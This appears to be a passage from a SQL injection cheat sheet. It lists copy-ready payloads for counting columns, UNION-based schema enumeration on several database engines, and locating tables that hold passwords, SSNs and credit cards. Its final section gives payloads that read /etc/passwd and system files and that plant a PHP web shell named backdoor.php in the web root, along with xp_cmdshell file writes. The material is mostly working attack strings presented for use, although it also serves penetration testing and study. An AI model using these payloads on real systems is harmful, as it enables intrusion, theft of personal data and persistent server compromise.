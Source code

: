 ### Union Attacks (Determining Columns and Data Types)

* **Explanation**: Critical step for Union-based SQLi. You need to know how many columns the original query returns and their data types to construct a valid `UNION` query.
* **Techniques:**
    1.  **`ORDER BY` Clause**: Increment the number after `ORDER BY` until an error occurs. The last working number reveals the column count.
        * `' ORDER BY 1-- `
        * `' ORDER BY 2-- `
        * ...
        * `' ORDER BY N--`
    2.  **`UNION SELECT NULL, NULL, ...`**: Once the column count is known, use `NULL` for each column in a `UNION SELECT` statement. Then, replace `NULL` values one by one with a simple string (`'a'`) or integer (`1`) to identify which columns are compatible with string or numeric data types.
        * `' UNION SELECT NULL, NULL, NULL--` (if 3 columns)
        * `' UNION SELECT 1, 'a', NULL--` (to test data types)
* **Use Case**: Laying the groundwork for data extraction using `UNION` queries.

### Extracting Database Information

* **Explanation**: Using specific SQL functions or system tables to get information about the database, tables, and columns.
* **Payloads (General):**
    * **Current User:** `SELECT user()` (MySQL), `SELECT system_user` (SQL Server), `SELECT user` (PostgreSQL), `SELECT USER FROM DUAL` (Oracle)
    * **Database Version:** `SELECT @@version` (MySQL, SQL Server), `SELECT version()` (PostgreSQL), `SELECT banner FROM v$version` (Oracle)
    * **Current Database Name:** `SELECT database()` (MySQL), `SELECT DB_NAME()` (SQL Server), `SELECT current_database()` (PostgreSQL), `SELECT name FROM v$database` (Oracle)
* **Payloads (Schema Enumeration - MySQL/PostgreSQL/SQLite):**
    * **Tables:** `' UNION SELECT 1,table_name,NULL FROM information_schema.tables--`
    * **Columns:** `' UNION SELECT 1,column_name,NULL FROM information_schema.columns WHERE table_name='users'--`
* **Payloads (Schema Enumeration - SQL Server):**
    * **Tables:** `' UNION SELECT 1,name,NULL FROM sysobjects WHERE xtype='U'--` (`xtype='U'` for user tables)
    * **Columns:** `' UNION SELECT 1,name,NULL FROM syscolumns WHERE id=(SELECT id FROM sysobjects WHERE name='users')--`
* **Payloads (Schema Enumeration - Oracle):**
    * **Tables:** `' UNION SELECT 1,table_name,NULL FROM all_tables--`
    * **Columns:** `' UNION SELECT 1,column_name,NULL FROM all_tab_columns WHERE table_name='USERS'--`
* **Use Case**: Mapping the database structure, finding sensitive tables (e.g., `users`, `credit_cards`) and columns (e.g., `password`, `ssn`).

### Reading/Writing Files

* **Explanation**: Some database systems (like MySQL and SQL Server) allow reading from and writing to the file system using specific functions.
* **Payloads (MySQL):**
    * **Reading:** `' UNION SELECT 1,LOAD_FILE('/etc/passwd'),NULL--`
    * **Writing (Requires `INTO OUTFILE`/`INTO DUMPFILE` and appropriate permissions):**
        * `' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/backdoor.php'--`
* **Payloads (SQL Server):**
    * **Reading (using `OPENROWSET` with `BULK`):**
        * `' UNION SELECT 1,2,OPENROWSET(BULK ''C:\Windows\System32\drivers\etc\hosts'', SINGLE_BLOB)--`
    * **Writing (using `xp_cmdshell` with `echo` or `bcp` utility):**
        * `'; EXEC xp_cmdshell 'echo "<?php phpinfo(); ?>" > "C:\inetpub\wwwroot\info.php"'--`
* **Use Case**: Gaining access to system files, deploying web shells for further compromise, or exfiltrating data.
